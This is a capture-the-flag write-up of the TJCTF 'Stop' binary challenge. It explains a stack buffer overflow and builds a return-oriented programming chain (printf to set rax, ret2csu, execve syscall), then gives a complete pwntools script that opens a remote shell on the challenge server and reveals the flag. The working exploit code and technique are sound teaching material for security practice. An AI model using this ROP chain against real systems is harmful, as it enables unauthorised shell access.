





# tjctf: binary

## Stop [70]

Written by KyleForkBomb

_I love playing stop, but I am tired of losing. Check out my new stop answer generator!_

_It's a work in progress and only has a few categories, but it's 100% bug-free!_

`nc p1.tjctf.org 8001`

## Inspection

```bash
$ ./stop.o
Which letter? _
```

As difficulty ramps up, so does source code complexity:

```c
int get_letter(){ int c = getchar(); ... }
int get_category(char *s){ ... }
int main() {
  char s1[256]; // [rsp+0h] [rbp-110h]
  int category; // [rsp+100h] [rbp-10h]
  int s_len;    // [rsp+104h] [rbp-Ch]
  int letter;   // [rsp+108h] [rbp-8h]
  int i;        // [rsp+10Ch] [rbp-4h]

  printf("Which letter? ", 0LL);
  letter = get_letter();
  getchar();
  if ( letter == -1 ) {
    printf("That's not a letter!\n");
    return 1;
  printf("\n");
  for ( i = 0; i <= 4; ++i )
    printf("%s\n", categories[i]);
  printf("\n");
  printf("Category? ");
  s_len = read(0LL, s1, 598LL); //BOF here!
  s1[s_len - 1] = '\0';
  category = get_category(s1);
  if ( category == -1 )
    printf("\nSorry, we don't have that category yet\n");
  else
    printf("\nYour answer is: %s\n", answers[category + 5LL * letter]);
}
```
Let's start off simple. There is a buffer overflow (of `0x256` on `s1[256]`) without any stack protector to halt it:

<p align="center">

</p>

Since the buffer overflow's at `"Category? "`, we ignore `get_letter()` for now<sup>1</sup>. Taking a look at `get_category()`, there's not much to be done there either — it just gives back a small value within the boundaries of `answers[]`. 
```c
int get_category() {
  int i;
  for ( i = 0; i <= 4; ++i ) {
    if ( !strcasecmp(categories[i], a1) )
      return (unsigned int)i;
  }
  return 0xFFFFFFFFLL;
}
```
What we're left with is an 0x256-256-24 == 326 byte buffer overflow, with little else to do. Where do we go from here?

## Gadget Grabbing

Running `ropper` on the binary, I noticed a curio:
<p align="center">

</p>

The binary has a `syscall` instruction in it, which is naturally indicative of a Return Oriented Programming attack vector. This also brought to attention something I'd failed to notice in IDA: the `read()` function is actually implemented as a syscall wrapper in `Stop`:

<p align="center">

</p>

With that in mind, we've a simple strategy to get through to `/bin/sh`:
1. overflow to the return pointer
2. set a ROP chain to rax=59, rdi="/bin/sh", rsi=rdx=0
3. `syscall` to execve("/bin/sh")
4. Use `read()` to write extra rop-chains if 326 bytes isn't enough<sup>2</sup>

(1) is simple enough. Using `pwn.cyclic()`, we can find the offset to the first return pointer in `gdb`: 

<p align="center">

</p>

Doing (2)? Not as simple.

## Black Magic

<p align="center">

<br><i>404</i><br>
</p>

We've got access to `rdi` and `rsi`, nominally the first two arguments for x64 functions. Unfortunately, there's no immediate gadget that allows us to set the value of the other two gadgets — `rax` and `rdx` — arbitrarily.

For `rax`, we first considered using `get_letter()` as a gadget, but its `cmp` restrictions (of `96 < char <= 122`) are too large to immediately set rax=59. Although it is possible to reach arbitrary `rax` using a well-placed `[rbp-4]`, this was not immediately apparent at the time.

Instead, knowing that we had access to rdi and rsi, we dug through the binary for a "string" (sequence of non-'\0' bytes) of length 59, using rdi="[length-59 C-string]" and `printf()` to write the length to rax.

<p align="center">

<br><i>That thing no one ever reads</i><br>
</p>

<p align="center">

<br><i>That (other) thing that people demean as obtuse</i><br>
</p>

At this point, the stack might look something like this:

```
+---s[]---+-------------ROP-chain-----------------+
| garbage | pop-rdi | "len59_str" | .plt printf() |
+---272---+----------------3*8--------------------+
```

Tacking on the rsi/rdi edits needed for the syscall, it'll expand to this:
```
+---s[]---+-------------ROP-chain-----------------+----------------more-ROP---------------+
| garbage | pop-rdi | "len59_str" | .plt printf() | pop-rsi | 0 | 0 | pop-rdi | "/bin/sh" |
+---272---+----------------3*8--------------------+------------------5*8------------------+
```

We're still left with `rdx`, which _may_ already be zero without attacker intervention, but we can apply ret2csu<sup>3</sup> to turn that into a guarantee.

## Execution

The final ROP chain will look like this:
```
+---s[]---+----------------csu part 1---------------+--------------csu part 2------------->
| garbage | gadget1 | 0 | 1 | &_DYNAMIC | 0 | 0 | 0 | gadget2 | 0 | 0 | 0 | 0 | 0 | 0 | 0 > 
+---272---+--------------------56-------------------+------------------64----------------->
<---------------rax=59------------------+---------------rdi=rsi=0---------------+-/bin/sh-+
< pop-rdi | "len59_str" | .plt printf() | pop-rsi | 0 | 0 | pop-rdi | "/bin/sh" | syscall |
<----------------3*8--------------------+------------------5*8------------------+----8----+
```

<p align="center">

</p>

Works on first try.

## flag

`tjctf{st0p_th4t_r1ght_now}`

## code
```python
from pwn import *
#lots of constants
r_offset = cyclic_find("uaac") #find this empirically
E = ELF('./stop.o')
binsh = 0x400A1A        #location of the "/bin/sh" string
len59 = 0x4006F0+5-59   #an eyeballed address containing a 59-byte long C-string
printf = E.symbols['printf']
#find these gadgets from ropper, or otherwise
pop_rdi = 0x400953
pop_six = 0x40094A
pop_rsi_r15 = 0x400951
mov_rdx_call = 0x400930
dynamic_init = 0x601de0 #x/5g &_DYNAMIC
read_syscall = E.symbols['read']    #the read() function
#helper functions to create ROPchains that write to certain registers
ret2csu = lambda rdx: [pop_six, 0, 1, dynamic_init, 0, 0, rdx]+[mov_rdx_call]+[0]*7
rdi_rsi = lambda rdi, rsi: [pop_rdi, rdi, pop_rsi_r15, rsi, 0]
#rop chain starts here
rop = ret2csu(0)                #rdx = 0
rop+= [pop_rdi, len59, printf]  #rdi = "<length-59 str>"; printf(rdi)
rop+= rdi_rsi(binsh, 0)         #rdi = "/bin/sh", rsi = 0
rop+= [read_syscall+5]          #syscall
rop = ''.join(map(p64,rop))
r = remote('p1.tjctf.org', 8001)
r.sendlineafter('? ', 'a')
assert len(rop)+r_offset < 598  #input requirement
r.sendlineafter('? ', 'a'*r_offset + rop)
r.interactive()
```
## footnotes
1. `get_letter()` could be used as a way to edit rax, but `printf()` felt simpler.
2. This _was_ a problem, but the solution shown here doesn't deal with this.
3. https://www.rootnetsec.com/ropemporium-ret2csu/
